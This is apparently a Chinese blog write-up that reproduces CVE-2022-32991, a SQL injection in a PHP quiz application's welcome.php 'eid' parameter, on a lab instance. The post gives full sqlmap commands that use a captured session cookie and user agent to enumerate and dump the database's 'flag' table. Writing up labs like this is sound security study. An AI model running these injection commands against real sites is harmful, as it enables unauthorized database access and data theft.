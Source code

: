 ```yaml
---
title: CVE-2022-32991
subtitle:
date: 2025-03-14T13:11:14+08:00
slug: 85472c2
draft: false
author:
  name: T1ng
  link:
  email:
  avatar: /images/avater.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - CVE
categories:
  - 复现
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: true
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: `![alt](images/screenshot.jpg)`. -->

尝试注册账号，注册完成以后登录

![](images/0dab76148ac78a186c13d411543798f9.png)

根据提示

![](images/02ddae09f0f72d3d7ebbad4f0ad43799.png)

该SQL注入位于welcome.php处。但是参数根据CVE官方应该是通过eid参数的SQL注入，但是上述页面并不是eid参数，需要继续查找。

![](images/1755879bd17168ddc6869dda07eae1f8.png)

在此处发现eid参数

![](images/244f0196e4e82a542f3b56ad63d33d23.png)

抓包找到所需要的参数，因为该页面需要登录访问，所以需要获得Cookie绕过身份验证，并添加-user-agent参数绕过客户端验证。

![](images/8d563db15e5e04624d859a8fc73492df.png)



```
Cookie: PHPSESSID=25p9b92ovsqudtuepvmi7jgvma
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
```

Sqlmap进行攻击

```
 sqlmap -u "http://eci-2ze4fh5ffzlnoxzusgkd.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694&n=1&t=34" -p "eid" --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0" --cookie="PHPSESSID=25p9b92ovsqudtuepvmi7jgvma" --batch --dbs
```

得到数据库

![](images/1a48213ec268f830405b986cd6745473.png)

爆出数据库以后，进行爆表

```
sqlmap -u "http://eci-2ze4fh5ffzlnoxzusgkd.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694&n=1&t=34" -p "eid" --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0" --cookie="PHPSESSID=25p9b92ovsqudtuepvmi7jgvma" --batch -D "ctf" --tables
```



![](images/683694ef17178f038bc2277de14cf1ec.png)

得到表名再去爆破列名

```
sqlmap -u "http://eci-2ze4fh5ffzlnoxzusgkd.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694&n=1&t=34" -p "eid" --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0" --cookie="PHPSESSID=25p9b92ovsqudtuepvmi7jgvma" --batch -D "ctf" -T "flag" --columns
```



![](images/1d577c691a349bbad1317a6a47772633.png)

继续爆破字段

```
sqlmap -u "http://eci-2ze4fh5ffzlnoxzusgkd.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694&n=1&t=34" -p "eid" --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0" --cookie="PHPSESSID=25p9b92ovsqudtuepvmi7jgvma" --batch -D "ctf" -T "flag" -C "flag" --dump
```



![](images/eced71d2a9282e89527650a514d70945.png)



总结

```
--cookie                        #绕过身份验证
--random-agent或--user-agent    #绕过客户端验证
--batch                         #默认后续sqlmap操作都为Y
--p                             #指定sqlmap注入的传参参数
```
